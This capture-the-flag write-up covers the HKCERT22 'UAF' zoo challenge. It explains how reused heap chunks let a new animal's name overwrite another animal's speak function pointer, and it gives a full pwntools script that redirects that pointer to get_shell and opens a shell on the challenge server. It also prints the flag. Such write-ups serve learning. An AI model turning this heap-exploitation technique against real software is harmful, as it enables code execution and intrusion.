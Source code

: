 # UAF
## Challenge details
![](assets/uaf_detail.png)

## Analysis
This program has a `get_shell()` function. The target of this challenge is to execute this function.
```c
void get_shell() {
    system("/bin/sh");
}
```

The `add_animal()` function will create 2 heap chunks and put in the list. 
```c
void add_animal() {
    int choice;
    int size;
    int idx;
    Animal* animal;

    if (zoo.numOfAnimal >= ZOO_SIZE) {
        print("[ERROR] The zoo is full.");
        return;
    }

    for (idx = 0; idx < ZOO_SIZE; idx++) {
        if (zoo.animals[idx] == NULL) {
            break;
        }
    }

    animal = (Animal*) malloc(sizeof(Animal));

    print("Type of animal?");
    print("1) Parrot");
    print("2) Panda");

    while (1) {
        printf("> ");
        scanf("%d", &choice);
        if (choice == 1) {
            animal->type = PARROT;
            break;
        } 
        if (choice == 2) {
            animal->type = PANDA;
            break;
        }
        printf("??\n");
    }

    animal->speak = speak;
    print("How long is the name? (max: 64 characters)");   
    while (1) {
        printf("> ");
        scanf("%d", &size);
        if (size >= 0 && size < MAX_NAME_SIZE) {
            animal->name = (char*) malloc(size);
            break;
        } 
        printf("??\n");
    }

    print("Name of animal?");
    printf("> ");
    read(0, animal->name, size);

    zoo.animals[idx] = animal;
    printf("> [DEBUG] Animal is added to zone %d\n", idx);
    zoo.numOfAnimal++;
}
```
The data structure is:
```c
struct Animal
{
    speakFunc speak;
    enum AnimalType type;
    char* name;
};
```
You can see that there is a function pointer `speak` which will be called after `report_name()` function (`speak(name)`). Our target is overwrite `speak` with the address of `get_shell`.
```c
void report_name() {
    <SNIP>
    zoo.animals[choice]->speak(zoo.animals[choice]->name);
}
```
Every time a new `Animal` is created, the pointer will will be inserted to `zoo[idx]` where `idx` is the first NULL pointer. Hence, use-after-free (UAF) can be applied. If we can overwrite the address of `speak` and call `report_name()`, `get_shell()` will be called.
```c
void remove_animal() {
    int choice;

    <SNIP>

    free(zoo.animals[choice]->name);
    free(zoo.animals[choice]);

    printf("> [DEBUG] Animal is removed from zone %d\n", choice);
    
    zoo.numOfAnimal--;
}
```
We want to make the `malloc()` allocate location to `name` that previous allocated to animal. Look at how GDB is executed.

Since the `add_animal()` request 2 heap chunks at once, the 2 chunks are allocated and freed in pairs.
![](assets/uaf_gdb1.png)

As we can specify the size of the name, we can allocated name with size 0x40 (2 chunks `A`: 0x20,  `B`: 0x40), then create an animal with name chunk size 0x20 (2 chunks `C`: 0x20, `D`: 0x20). Thus, if these 2 chunks are freed and add a new animal with size 0x20, the chunks `A` and `C` will be allocated. If we the name to this animal, the address of `speak()` of the 2nd animal will be overwritten.
![](assets/uaf_gdb2.png)

## Solution
```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

e = ELF('./zoo')
# r = gdb.debug('./zoo', 'b* remove_animal\nc')
r = remote('chal.hkcert22.pwnable.hk', 28235)
def create(size, data):
    r.sendlineafter(b'Exit\n> ', b'1')
    r.sendlineafter(b'2) Panda', b'1')
    r.sendlineafter(b'name? ', str(size).encode())
    r.sendafter(b'animal?', data)

def delete(id):
    r.sendlineafter(b'Exit\n> ', b'2')
    r.sendlineafter(b'(0-9)', str(id).encode())

def report(id):
    r.sendlineafter(b'Exit\n> ', b'3')
    r.sendlineafter(b'(0-9)', str(id).encode())
# 0
create(0x30, b'AAAAAAAAA')
# 1
create(0x18, b'AAAAAAAAA')
# 2
create(0x18, b'AAAAAAAAA')
# 3
create(0x18, b'AAAAAAAAA')
# 4
create(0x18, b'AAAAAAAAA')
# 5
create(0x18, b'AAAAAAAAA')
# 6
create(0x18, b'AAAAAAAAA')
# 7
create(0x18, b'AAAAAAAAA')


delete(1)
delete(0)

# 8
create(0x18, p64(e.symbols['get_shell']))
report(1)
r.interactive()
```

## Flag
`
hkcert22{w3L1C0me_70_World_0f_pwN_h34P_z0o}
`